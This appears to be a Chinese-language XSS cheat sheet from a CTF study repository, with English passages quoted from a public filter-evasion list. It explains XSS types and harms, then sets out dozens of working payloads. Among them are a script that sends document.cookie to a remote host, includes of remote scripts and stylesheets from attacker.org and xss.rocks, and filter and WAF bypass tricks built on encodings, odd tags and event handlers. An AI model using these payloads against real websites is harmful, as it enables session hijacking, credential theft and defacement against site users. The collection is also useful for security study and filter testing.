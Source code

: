 #                                  XSS

* ## XSS定义

跨站脚本（Cross-site scripting，XSS）是对网页代码（包含HTML以及前端脚本）有漏洞的网站进行的攻击，是代码注入的一种。它允许恶意代码被注入到网页上，其他使用者在访问网页时就会受
到影响。攻击成功后，攻击者可能得 到更高的权限、私密网页内容、会话和cookie等各种内容。 

> 提示
>
> > XSS属于客户端攻击，受害者最终是用户。但不要忘记网站管理人员也属于用户之一，管理员拥有着太多权限，一般管理员都可以对网站进行文件管理、数据管理等操作，攻击者就有可能靠管理员身份作为跳板实施攻击。

* ## 原理

  XSS攻击是在网页中嵌入客户端恶意脚本代码，这些恶意代码一般使用JavaScript语言编写JavaScript可以用来获取用户的Cookie、改变网页内容、URL调转，存在XSS漏洞的网站，可以盗取用户Cookie、黑掉页面、导航到恶意网站，攻击者仅仅需要向web页面注入JavaScript代码

* ## XSS常见出现漏洞的地方

  1. 数据交互的地方
     - get、post、cookies、headers
     - 反馈与浏览
     - 富文本编辑器
     - 各类标签插入和自定义
  2. 数据输出的地方
     - 用户资料
     - 关键词、标签、说明
     - 文件上传

* ## 危害

  - 网络钓鱼，包括获取各类用户账号；
  - 窃取用户cookies资料，从而获取用户隐私信息，或利用用户身份进一步对网站执行操作；
  - 劫持用户（浏览器）会话，从而执行任意操作，例如非法转账、强制发表日志、电子邮件等；
  - 强制弹出广告页面、刷流量等；
  - 网页挂马；
  - 进行恶意操作，如任意篡改页面信息、删除文章等；
  - 进行大量的客户端攻击，如ddos等；
  - 获取客户端信息，如用户的浏览历史、真实ip、开放端口等；
  - 控制受害者机器向其他网站发起攻击；
  - 结合其他漏洞，如csrf,实施进一步危害；
  - 提升用户权限，包括进一步渗透网站；
  - 传播跨站脚本蠕虫等

* ## 分类

  1. 反射型（不储存于服务器，非持久）
  2. 储存性（粗存于服务器，持久性）
  3. DOM型（改变DOM结构）（DOM本身代表文档，给予DOM型的XSS不需要与服务器交互，只发生在客户端处理数据阶段）![xss_type_DOM](https://github.com/lrq12349306/ctf/blob/main/picture/xss_type_DOM.png)

- ## 漏洞利用

 1.盗取cookie： 

```
<script>alert(document.cookie)</script>
```

 2.构造页面跳转： 

```
<script>location='https://www.hacker.com'</script>
```

 3.构造获取cookie并发送到远程主机： 

```javascript
<script>document.location='http://127.0.0.1/test/cookie.phpcookie='+document.cookie</script>
```

- ### 常见注入点

1、输入框

2、留言板

3、URL中可传参数的变量

* ### 触发JS解析器的方式：

  1. 直接嵌入<script>代码块。
2. 通过src属性加载代码。
  3. 行内样式
  4. 各种HTML CSS参数支持JavaScript：URL伪协议触发调用。
  5. 事件处理器，如：onload，onerror，onclick等。
  6. 定时器，timer（setTimeout，setInterval）
  7. eval(...)调用

* ## 过滤与绕过

  ### 1. 闭合引号、标签

  ### 2. 关键字、符号过滤

- 反引号代替圆括号

- 换行、空格、Tab绕过正则

- <!--不仅可以用-->,也可以用--!>闭合

- //可以用换行来绕过

- <!--和-->都可以在html的script标签里单独使用进行单行注释

- ſ 符号转换为大写后正好为大写字母 S

- 可以用 %0a 代替空格进行绕过

- 用 / 代替空格

- 不闭合标签
  -   <  代替  >  闭合标签
  ```javascript
  <iframe src=http://xss.rocks/scriptlet.html <
  ```
  - firefox 自动补全标签
  ```javascript
  <SCRIPT SRC=http://xss.rocks/xss.js?< B >
  ```
  - 被限制长度，浏览器可识别 .j 

    ```javascript
    <SCRIPT SRC=//xss.rocks/.j>
    ```

  -  IE中用以下符号代替>闭合标签

  ```javascript
  /((\\%3D)|(=))\[^\\n\]\*((\\%3C)|\<)\[^\\n\]+((\\%3E)|\>)/
  ```

- 额外的无关括号

  ```javascript
  <<SCRIPT>alert("XSS");//\<</SCRIPT>
  ```

- 大小写

- Non-alpha-non-digit XSS（⑧懂）

  ```javascript
  <SCRIPT/XSS SRC="http://xss.rocks/xss.js"></SCRIPT>
  ```

  ```javascript
  <BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>
  ```

- ”覆盖变量“

  ```javascript
  \";alert('XSS');//
  ```

  > 效果：
  >
  > ```javascript
  > <SCRIPT>var a="\\\\";alert('XSS');//";</SCRIPT>
  > ```

- 双写、拼凑

- 当括号被过滤的时候可以使用throw来绕过

  > ```javascript
  > <svg/onload="window.onerror=eval;throw'=alert\x281\x29';">
  > ```

- 如果是html标签中，可以不用引号；如果是在js中，可以用反引号代替单双引号。

- 字符拼接
  
> 利用eval
> ```javascript
> <img src="x" onerror="a=`aler`;b=`t`;c='(`xss`);';eval(a+b+c)">
> ```
>
> 利用top
>
> ```
> <script>top["al"+"ert"](`xss`);</script>
> ```

- 干扰字符（任意位置插入null字符）
> ```javascript
  ><im[%00]g onerror=alert(xss) src=a>
> ```
- html标签中用`//`可以代替`http://`

  ```javascript
  <img src="x" onerror=document.location=`//www.baidu.com`>
  ```

- 使用`\\`

  ```javascript
  但是要注意在windows下\本身就有特殊用途，是一个path 的写法，所以\\在Windows下是file协议，在linux下才会是当前域的协议
  ```

- 使用中文逗号代替英文逗号

  > 如果你在你在域名中输入中文句号浏览器会自动转化成英文的逗号 

  ```javascript
  <img src="x" onerror="document.location=`http://www。baidu。com`">//会自动跳转到百度
  ```

- 其它字符混淆

> 有的waf可能是用正则表达式去检测是否有xss攻击，如果我们能fuzz出正则的规则，则我们> > 就可以使用其它字符去混淆我们注入的代码了
> 下面举几个简单的例子
>
> > 可利用注释、标签的优先级等
```javascript
<<script>alert("xss");//<</script>
<title><img src=</title>><img src=x onerror="alert(`xss`);"> //因为title标签的优先级比img的高，所以会先闭合title，从而导致前面的img标签无效
<SCRIPT>var a="\\";alert("xss");//";</SCRIPT>
```
### 3. 编码绕过

* url编码，JavaScript编码  （在src等属性标签下可用，”JavaScript“本身不能编码）
  
  |     进制      |       格式       |
  | :-----------: | :--------------: |
  |  ascll(默认)  |       %00        |
  |    八进制     | \0(三位不足补零) |
  |    十六进     |       \x00       |
  | unicode编码制 |      \u0000      |
  |    base64     |       如下       |
  
  ```javascript
  <img src="x" onerror="eval(atob('ZG9jdW1lbnQubG9jYXRpb249J2h0dHA6Ly93d3cuYmFpZHUuY29tJw=='))">
  <iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=">
  ```
  
* HTML实体（对大小写敏感，**分号没必要，最大7位填充，0可忽略**）
  
    [html实体码转码](https://www.qqxiuzi.cn/bianma/zifushiti.php "实体码，记得预留字符转命名实体")
  
    ![image-20201229232607711](C:\Users\Lenovo\AppData\Roaming\Typora\typora-user-images\image-20201229232607711.png)

  

* 宽字节绕过

* 复合编码

* String.fromCharCode编码

      如alert编码为：
      
      ```javascript
      String.fromCharCode(97,108,101,114,116)
      ```

* JavaScript转义（在src等属性标签下可用，”JavaScript“本身不能编码）

    ```javascript
  <a href=javascript:eval(alert('xss'))>aa</a>
  ```
  
* java alert encode**(编码最多是7位填充，包括)**

  ```javascript
  <img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">
  ```


- expression属性

  ```
  <img style="xss:expression(alert('xss''))"> // IE7以下
  <div style="color:rgb(''�x:expression(alert(1))"></div> //IE7以下
  <style>#test{x:expression(alert(/XSS/))}</style> // IE7以下
  ```

- US-ASCII Encoding

  > US-ASCII encoding (found by Kurt Huwig).This uses malformed ASCII  encoding with 7 bits instead of 8. This XSS may bypass many content  filters but only works if the host transmits in US-ASCII encoding, or if you set the encoding yourself. This is more useful against web  application firewall cross site scripting evasion than it is server side filter evasion. Apache Tomcat is the only known server that transmits  in US-ASCII encoding.

  ```
  ¼script¾alert(¢XSS¢)¼/script¾
  ```



#### 4. 外部标签

  ---> <svg>属于外部标签，是一种特殊的标签，它使用XML格式定义图像，XML支持在标签内解析HTML实体字符，所以在XML中可以执行。
```javascript
<svg><script>alert(&#40;'1'&#41;</script>)
```

##### 浏览器解码顺序

html解码 ---> JavaScript解码 ---> url解码 ---> 发送http请求

![image-20201229223632254](C:\Users\Lenovo\AppData\Roaming\Typora\typora-user-images\image-20201229223632254.png)


### 5. 使用IP

  **1.十进制IP**

```javascript
<img src="x" onerror=document.location=`http://2130706433/`>
```

  **2.八进制IP**

```javascript
<img src="x" onerror=document.location=`http://0177.0.0.01/`>
```

  **3.hex**

```javascript
<img src="x" onerror=document.location=`http://0x7f.0x0.0x0.0x1/`>
```



#### 6. CSS import

IE 浏览器支持在 CSS 中扩展 JavaScript，这种技术称为动态特性(dynamic properties)。允许攻击者加载一个外部 CSS 样式表是相当危险的，因为攻击者现在可以在原始页面中执行 JavaScript 代码了。
 ```javascript
 <style>
 @import url("http://attacker.org/malicious.css");
 </style>
 ```
 **malicious.css：**
```javascript
 body {
   color: expression(alert('XSS'));
 }
```
**为了绕过对 @import 的过滤，可以在 CSS 中使用反斜杠进行绕过：**

 ```javascript
 <style>
 @imp\ort url("http://attacker.org/malicious.css");
 </style>
 ```
 IE 浏览器会接受反斜杠，但是我们绕过了过滤器。



### 7. JavaScript伪协议

**---><a>标签**

```javascript
<a href="javascript:alert(`xss`);">xss</a>
```

**---><iframe>标签**

```javascript
<iframe src=javascript:alert('xss');></iframe>
```

**---><img>标签**

```javascript
<img src=javascript:alert('xss')>//IE7以下
```

**---><form>标签**


```javascript
<form action="Javascript:alert(1)"><input type=submit>
```



###  **8. 利用link远程包含js文件**

> PS：在无CSP的情况下才可以

  ```
<link rel=import href="http://127.0.0.1/1.js">
  ```

> rename .js

```
<SCRIPT SRC="http://xss.rocks/xss.jpg"></SCRIPT>
```



### 9. 其它

**--->UTF-7 Encoding**

> If the page that the XSS resides on doesn’t provide a page charset  header, or any browser that is set to UTF-7 encoding can be exploited  with the following (Thanks to Roman Ivanov for this one). Click here for an example (you don’t need the charset statement if the user’s browser  is set to auto-detect and there is no overriding content-types on the  page in Internet Explorer and Netscape 8.1 in IE rendering engine mode). This does not work in any modern browser without changing the encoding  type which is why it is marked as completely unsupported. Watchfire  found this hole in Google’s custom 404 script.:

```
<HEAD><META HTTP-EQUIV="CONTENT-TYPE" CONTENT="text/html; charset=UTF-7"> </HEAD>+ADw-SCRIPT+AD4-alert('XSS');+ADw-/SCRIPT+AD4-
```

**--->Cookie Manipulation**

> Admittedly this is pretty obscure but I have seen a few examples where `<META` is allowed and you can use it to overwrite cookies. There are other  examples of sites where instead of fetching the username from a database it is stored inside of a cookie to be displayed only to the user who  visits the page. With these two scenarios combined you can modify the  victim’s cookie which will be displayed back to them as JavaScript (you  can also use this to log people out or change their user states, get  them to log in as you, etc…):

```
<META HTTP-EQUIV="Set-Cookie" Content="USERID=<SCRIPT>alert('XSS')</SCRIPT>">
```

**--->PHP**

> Requires PHP to be installed on the server to use this XSS vector.  Again, if you can run any scripts remotely like this, there are probably much more dire issues:

```javascript
<? echo('<SCR)';
echo('IPT>alert("XSS")</SCRIPT>'); ?>
```

**--->EMBED a Flash Movie That Contains XSS**

> Click here for a demo: ~~http://ha.ckers.org/xss.swf~~

```
<EMBED SRC="http://ha.ckers.org/xss.swf" AllowScriptAccess="always"></EMBED>
```

> firefox

```
<EMBED SRC="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==" type="image/svg+xml" AllowScriptAccess="always"></EMBED>
```

**--->Downlevel-Hidden Block**

> Only works in IE5.0 and later and Netscape 8.1 in IE rendering engine mode). Some websites consider anything inside a comment block to be  safe and therefore does not need to be removed, which allows our Cross  Site Scripting vector. Or the system could add comment tags around  something to attempt to render it harmless. As we can see, that probably wouldn’t do the job:

```
<!--[if gte IE 4]>
<SCRIPT>alert('XSS');</SCRIPT>
<![endif]-->
```

**--->background属性**

```javascript
<table background=javascript:alert(1)></table> //在Opera 10.5和IE6上有效
```

**--->XSS Locator**

```javascript
javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>
```

```javascript
<SCRIPT>var a="\\\\";alert('XSS');//";</SCRIPT>
```

**--->Malformed IMG Tags**

```javascript
<IMG """><SCRIPT>alert("XSS")</SCRIPT>"\>
```

**--->Livescript (older versions of Netscape only)**

```javascript
<IMG SRC="livescript:[code]">
```

**--->VBscript in an Image**

```javascript
<IMG SRC='vbscript:msgbox("XSS")'>
```

**--->List-style-image**

> Fairly esoteric issue dealing with embedding images for bulleted  lists. This will only work in the **IE** rendering engine because of the  JavaScript directive. Not a particularly useful cross site scripting  vector:

```javascript
<STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS</br>
```

**--->ECMAScript 6**

```javascript
Set.constructor`alert\x28document.domain\x29
```

**--->BGSOUND**

```javascript
<BGSOUND SRC="javascript:alert('XSS');">
```

**--->& JavaScript includes**

```javascript
<BR SIZE="&{alert('XSS')}">
```

**--->STYLE sheet**

```javascript
<LINK REL="stylesheet" HREF="javascript:alert('XSS');">
```

### 10. 各种标签

   **---><script>标签：**
```javascript
<script>alert(/1/)</script>
<script>prompt(1)</script> 
<script>confirm(1)</script>
<script src="http://attacker.org/malicious.js"></script>
<script src=data:text/javascript,alert(1)></script>
<script>setTimeout(alert(1),0)</script>
```
   **---><a>标签：**

```javascript
<a href="javascript:alert(1)">点击触发</a>
<a href="http://www.hacker.com">点击触发</a>
```

  **---><img>**

  ```javascript
  <img src=1 onerror=alert("xss");>
  ```

> Default SRC Tag to Get Past Filters that Check SRC Domain
>
> ```javascript
> <IMG SRC=# onmouseover="alert('xxs')">
> ```
>
> Default SRC Tag by Leaving it Empty
>
> ```javascript
> <IMG SRC= onmouseover="alert('xxs')">
> ```
>
> Default SRC Tag by Leaving it out Entirely
>
> ```javascript
> <IMG onmouseover="alert('xxs')">
> ```
>
> IMG Lowsre
>
> ```javascript
> <IMG LOWSRC="javascript:alert('XSS')">
> ```
>
> IMG Dynsrc
>
> ```javascript
> <IMG DYNSRC="javascript:alert('XSS')">
> ```
>
> On Error Alert
>
> ```javascript
> <IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>
> ```

**---><input>**

  ```
  <input onfocus="alert('xss');">
  竞争焦点，从而触发onblur事件
  <input onblur=alert("xss") autofocus><input autofocus>
  通过autofocus属性执行本身的focus事件，这个向量是使焦点自动跳到输入元素上,触发焦点事件，无需用户去触发
<input onfocus="alert('xss');" autofocus>
  ```

**---><details>**


```
  <details ontoggle="alert('xss');">
  使用open属性触发ontoggle事件，无需用户去触发
  <details open ontoggle="alert('xss');">
```

**---><svg>**


  ```
  <svg onload=alert("xss");>
  ```

**---><select>**

  ```
  <select onfocus=alert(1)></select>
  通过autofocus属性执行本身的focus事件，这个向量是使焦点自动跳到输入元素上,触发焦点事件，无需用户去触发
  <select onfocus=alert(1) autofocus>
  ```

**---><iframe>**

  ```
  <iframe onload=alert("xss");></iframe>
  ```

**---><video>**

  ```
  <video><source onerror="alert(1)">
  ```

**---><audio>**

  ```
  <audio src=x  onerror=alert("xss");>
  ```

**---><body>**

  ```
  <body/onload=alert("xss");>
  ```

> 利用换行符以及autofocus，自动去触发onscroll事件，无需用户去触发

  ```
  <body
  onscroll=alert("xss");><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><input autofocus>
  ```

**---><textarea>**

  ```
  <textarea onfocus=alert("xss"); autofocus>
  ```

**---><keygen>**

  ```
  <keygen autofocus onfocus=alert(1)> //仅限火狐
  ```

**---><marquee>**

  ```
  <marquee onstart=alert("xss")></marquee> //Chrome不行，火狐和IE都可以
  ```

**---><isindex>**

  ```
  <isindex type=image src=1 onerror=alert("xss")>//仅限于IE
  ```

**---><style>(限制较多)**

**Remote style sheet**

> Using something as simple as a remote style sheet you can include  your XSS as the style parameter can be redefined using an embedded  expression. This only works in IE and Netscape 8.1+ in IE rendering  engine mode. Notice that there is nothing on the page to show that there is included JavaScript. Note: With all of these remote style sheet  examples they use the body tag, so it won’t work unless there is some  content on the page other than the vector itself, so you’ll need to add a single letter to the page to make it work if it’s an otherwise blank  page:

```
<LINK REL="stylesheet" HREF="http://xss.rocks/xss.css">
```

**Remote style sheet part 2**

> This works the same as above, but uses a `<STYLE>` tag instead of a `<LINK>` tag). A slight variation on this vector was used to hack Google Desktop. As a side note, you can remove the end `</STYLE>` tag if there is HTML immediately after the vector to close it. This is  useful if you cannot have either an equals sign or a slash in your cross site scripting attack, which has come up at least once in the real  world:

```
<STYLE>@import'http://xss.rocks/xss.css';</STYLE>
```

**Remote style sheet part 3**

> This only works in Opera 8.0 (no longer in 9.x) but is fairly tricky. According to RFC2616 setting a link header is not part of the HTTP1.1  spec, however some browsers still allow it (like Firefox and Opera). The trick here is that I am setting a header (which is basically no  different than in the HTTP header saying `Link: <http://xss.rocks/xss.css>; REL=stylesheet`) and the remote style sheet with my cross site scripting vector is running the JavaScript, which is not supported in FireFox:

```
<META HTTP-EQUIV="Link" Content="<http://xss.rocks/xss.css>; REL=stylesheet">
```

**Remote style sheet part 4**

> This only works in Gecko rendering engines and works by binding an  XUL file to the parent page. I think the irony here is that Netscape  assumes that Gecko is safer and therefor is vulnerable to this for the  vast majority of sites:

```
<STYLE>BODY{-moz-binding:url("http://xss.rocks/xssmoz.xml#xss")}</STYLE>
```

**STYLE Tags with Broken-up JavaScript for XSS**

> This XSS at times sends IE into an infinite loop of alerts:

```
<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>
```

**STYLE Attribute using a Comment to Break-up Expression**

> Created by Roman Ivanov

```
<IMG STYLE="xss:expr/*XSS*/ession(alert('XSS'))">
```

**IMG STYLE with Expression**

> This is really a hybrid of the above XSS vectors, but it really does  show how hard STYLE tags can be to parse apart, like above this can send IE into a loop:

```
exp/*<A STYLE='no\xss:noxss("*//*");
xss:ex/*XSS*//*/*/pression(alert("XSS"))'>
```

**STYLE Tag (Older versions of Netscape only)**

```
<STYLE TYPE="text/javascript">alert('XSS');</STYLE>
```

**STYLE Tag using Background-image**

```
<STYLE>.XSS{background-image:url("javascript:alert('XSS')");}</STYLE><A CLASS=XSS></A>
```

**STYLE Tag using Background**

```
<STYLE type="text/css">BODY{background:url("javascript:alert('XSS')")}</STYLE>` `<STYLE type="text/css">BODY{background:url("<javascript:alert>('XSS')")}</STYLE>
```

**Anonymous HTML with STYLE Attribute**

IE6.0 and Netscape 8.1+ in IE rendering engine mode don’t really care if the HTML tag you build exists or not, as long as it starts with an  open angle bracket and a letter:

```
<XSS STYLE="xss:expression(alert('XSS'))">
```

**---><META>**

> The odd thing about meta refresh is that it doesn’t send a referrer  in the header - so it can be used for certain types of attacks where you need to get rid of referring URLs:

```
<META HTTP-EQUIV="refresh" CONTENT="0;url=javascript:alert('XSS');">
```

**META using Data**

> Directive URL scheme. This is nice because it also doesn’t have  anything visibly that has the word SCRIPT or the JavaScript directive in it, because it utilizes base64 encoding. Please see RFC 2397 for more  details or go here or here to encode your own. You can also use the XSS [calculator](http://ha.ckers.org/xsscalc.html) below if you just want to encode raw HTML or JavaScript as it has a Base64 encoding method:

```
<META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">
```

**META with Additional URL Parameter**

> If the target website attempts to see if the URL contains `<http://>;` at the beginning you can evade it with the following technique (Submitted by Moritz Naumann):

```
<META HTTP-EQUIV="refresh" CONTENT="0; URL=http://;URL=javascript:alert('XSS');">
```

**---><TD>**

```
<TABLE><TD BACKGROUND="javascript:alert('XSS')">
```

**---><DIV>**

```
<DIV STYLE="background-image: url(javascript:alert('XSS'))">
```

**---><BASE>**

```
<BASE HREF="javascript:alert('XSS');//">
```

**---><OBJECT>**

> If they allow objects, you can also inject virus payloads to infect  the users, etc. and same with the APPLET tag). The linked file is  actually an HTML file that can contain your XSS:

```
<OBJECT TYPE="text/x-scriptlet" DATA="http://xss.rocks/scriptlet.html"></OBJECT>
```

**---><XML>**

> This XSS attack works only in IE and Netscape 8.1 in IE rendering  engine mode) - vector found by Sec Consult while auditing Yahoo:

```
<XML ID="xss"><I><B><IMG SRC="javas<!-- -->cript:alert('XSS')"></B></I></XML> 
<SPAN DATASRC="#xss" DATAFLD="B" DATAFORMATAS="HTML"></SPAN>
```

> 例：
>
> > ```javascript
> > <script>alert(navigator.userAgent)<script> <script>alert(88199)</script> <script>confirm(88199)</script> <script>prompt(88199)</script> <script>\u0061\u006C\u0065\u0072\u0074(88199)</script> <script>+alert(88199)</script> <script>alert(/88199/)</script> 
> > <script src=data:text/javascript,alert(88199)></script> 
> > <script src=&#100&#97&#116&#97:text/javascript,alert(88199)></script> <script>alert(String.fromCharCode(49,49))</script> <script>alert(/88199/.source)</script> <script>setTimeout(alert(88199),0)</script> 
> > <script>document['write'](88199);</script> 
> > <anytag οnmοuseοver=alert(15)>M 
> > <anytag οnclick=alert(16)>M 
> > <a οnmοuseοver=alert(17)>M 
> > <a οnclick=alert(18)>M 
> > <a href=javascript:alert(19)>M 
> > <button/οnclick=alert(20)>M 
> > <form><button formaction=javascript&colon;alert(21)>M <form/action=javascript:alert(22)><input/type=submit> 
> > <form οnsubmit=alert(23)><button>M 
> > <form οnsubmit=alert(23)><button>M 
> > <img src=x οnerrοr=alert(24)> 29 
> > <body/οnlοad=alert(25)> 
> > <body οnscrοll=alert(26)><br><br><br><br><br><br><br> <br><br><br><br><br><br><br><br><br><br><br> <br><br><br><br><br><br><br><br><br><br><br> <br><br><br><br><br><br><br><br><br><br><br> <input autofocus> <iframe src="http://0x.lv/xss.swf"></iframe> 
> > <iframe/οnlοad=alert(document.domain)></iframe> 
> > <IFRAME SRC="javascript:alert(29);"></IFRAME> 
> > <meta http-equiv="refresh" content="0; url=data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%2830%29%3C%2%73%63%72%69%70%74%3E"> 
> > <object data=data:text/html;base64,PHNjcmlwdD5hbGVydChkb2N1bWVudC5kb21haW4pPC9zY3JpcHQ+></object> 
> > <object data="javascript:alert(document.domain)"> 
> > <marquee onstart=alert(30)></marquee> 
> > <isindex type=image src=1 οnerrοr=alert(31)> 
> > <isindex action=javascript:alert(32) type=image> 
> > <input οnfοcus=alert(33) autofocus> 
> > <input οnblur=alert(34) autofocus><input autofocus>
> >     
> > //关键字和编码结合
> > <IMG SRC="jav&#x0A;ascript:alert('XSS');"> //换行
> > <IMG SRC="jav&#x0D;ascript:alert('XSS');"> //空格
> > <IMG SRC="jav&#x09;ascript:alert('XSS');"> //Tab
> > ```

### 11. Filter Bypass Alert Obfuscation

- `(alert)(1)`
- `a=alert,a(1)`
- `[1].find(alert)`
- `top[“al”+”ert”](1)`
- `top[/al/.source+/ert/.source](1)`
- `al\u0065rt(1)`
- `top[‘al\145rt’](1)`
- `top[‘al\x65rt’](1)`
- `top[8680439..toString(30)](1)`
- `alert?.()`

###  **常用事件：** 


  onclick: 点击触发
  ```
  （<img src=x onclick=alert(1)>）
  ```

  onerror: 当 src 加载不出来时触发
  ```
  （<img src=x onerror=alert(1)>）
  ```

  onload: 当 src 加载完毕触发
  ```
  （<img src=x onload=alert(1)>）
  ```

  onmouseover：鼠标移动到图片后触发
  ```
  （<img src=x onmouseover=alert(1)>）
  ```

  onmousemove: 鼠标移到指定元素触发
  ```
  （<img src=x onmousemove=alert(1) >）
  ```

  onfocus: 当input 输入框获取焦点时触发
  ```
  （<input onfocus=javascript:alert(1) autofocus>）
  ```



### [事件列表](http://help.dottoro.com/ljfvvdnm.php)

1. `FSCommand()` (attacker can use this when executed from within an embedded Flash object)
2. `onAbort()` (when user aborts the loading of an image)
3. `onActivate()` (when object is set as the active element)
4. `onAfterPrint()` (activates after user prints or previews print job)
5. `onAfterUpdate()` (activates on data object after updating data in the source object)
6. `onBeforeActivate()` (fires before the object is set as the active element)
7. `onBeforeCopy()` (attacker executes the attack string right before a selection is copied to the clipboard - attackers can do this with the `execCommand("Copy")` function)
8. `onBeforeCut()` (attacker executes the attack string right before a selection is cut)
9. `onBeforeDeactivate()` (fires right after the activeElement is changed from the current object)
10. `onBeforeEditFocus()` (Fires before an object contained in an editable element enters a  UI-activated state or when an editable container object is control  selected)
11. `onBeforePaste()` (user needs to be tricked into pasting or be forced into it using the `execCommand("Paste")` function)
12. `onBeforePrint()` (user would need to be tricked into printing or attacker could use the `print()` or `execCommand("Print")` function).
13. `onBeforeUnload()` (user would need to be tricked into closing the browser - attacker cannot unload windows unless it was spawned from the parent)
14. `onBeforeUpdate()` (activates on data object before updating data in the source object)
15. `onBegin()` (the onbegin event fires immediately when the element’s timeline begins)
16. `onBlur()` (in the case where another popup is loaded and window looses focus)
17. `onBounce()` (fires when the behavior property of the marquee object is set to  “alternate” and the contents of the marquee reach one side of the  window)
18. `onCellChange()` (fires when data changes in the data provider)
19. `onChange()` (select, text, or TEXTAREA field loses focus and its value has been modified)
20. `onClick()` (someone clicks on a form)
21. `onContextMenu()` (user would need to right click on attack area)
22. `onControlSelect()` (fires when the user is about to make a control selection of the object)
23. `onCopy()` (user needs to copy something or it can be exploited using the `execCommand("Copy")` command)
24. `onCut()` (user needs to copy something or it can be exploited using the `execCommand("Cut")` command)
25. `onDataAvailable()` (user would need to change data in an element, or attacker could perform the same function)
26. `onDataSetChanged()` (fires when the data set exposed by a data source object changes)
27. `onDataSetComplete()` (fires to indicate that all data is available from the data source object)
28. `onDblClick()` (user double-clicks a form element or a link)
29. `onDeactivate()` (fires when the activeElement is changed from the current object to another object in the parent document)
30. `onDrag()` (requires that the user drags an object)
31. `onDragEnd()` (requires that the user drags an object)
32. `onDragLeave()` (requires that the user drags an object off a valid location)
33. `onDragEnter()` (requires that the user drags an object into a valid location)
34. `onDragOver()` (requires that the user drags an object into a valid location)
35. `onDragDrop()` (user drops an object (e.g. file) onto the browser window)
36. `onDragStart()` (occurs when user starts drag operation)
37. `onDrop()` (user drops an object (e.g. file) onto the browser window)
38. `onEnd()` (the onEnd event fires when the timeline ends.
39. `onError()` (loading of a document or image causes an error)
40. `onErrorUpdate()` (fires on a databound object when an error occurs while updating the associated data in the data source object)
41. `onFilterChange()` (fires when a visual filter completes state change)
42. `onFinish()` (attacker can create the exploit when marquee is finished looping)
43. `onFocus()` (attacker executes the attack string when the window gets focus)
44. `onFocusIn()` (attacker executes the attack string when window gets focus)
45. `onFocusOut()` (attacker executes the attack string when window looses focus)
46. `onHashChange()` (fires when the fragment identifier part of the document’s current address changed)
47. `onHelp()` (attacker executes the attack string when users hits F1 while the window is in focus)
48. `onInput()` (the text content of an element is changed through the user interface)
49. `onKeyDown()` (user depresses a key)
50. `onKeyPress()` (user presses or holds down a key)
51. `onKeyUp()` (user releases a key)
52. `onLayoutComplete()` (user would have to print or print preview)
53. `onLoad()` (attacker executes the attack string after the window loads)
54. `onLoseCapture()` (can be exploited by the `releaseCapture()` method)
55. `onMediaComplete()` (When a streaming media file is used, this event could fire before the file starts playing)
56. `onMediaError()` (User opens a page in the browser that contains a media file, and the event fires when there is a problem)
57. `onMessage()` (fire when the document received a message)
58. `onMouseDown()` (the attacker would need to get the user to click on an image)
59. `onMouseEnter()` (cursor moves over an object or area)
60. `onMouseLeave()` (the attacker would need to get the user to mouse over an image or table and then off again)
61. `onMouseMove()` (the attacker would need to get the user to mouse over an image or table)
62. `onMouseOut()` (the attacker would need to get the user to mouse over an image or table and then off again)
63. `onMouseOver()` (cursor moves over an object or area)
64. `onMouseUp()` (the attacker would need to get the user to click on an image)
65. `onMouseWheel()` (the attacker would need to get the user to use their mouse wheel)
66. `onMove()` (user or attacker would move the page)
67. `onMoveEnd()` (user or attacker would move the page)
68. `onMoveStart()` (user or attacker would move the page)
69. `onOffline()` (occurs if the browser is working in online mode and it starts to work offline)
70. `onOnline()` (occurs if the browser is working in offline mode and it starts to work online)
71. `onOutOfSync()` (interrupt the element’s ability to play its media as defined by the timeline)
72. `onPaste()` (user would need to paste or attacker could use the `execCommand("Paste")` function)
73. `onPause()` (the onpause event fires on every element that is active when the timeline pauses, including the body element)
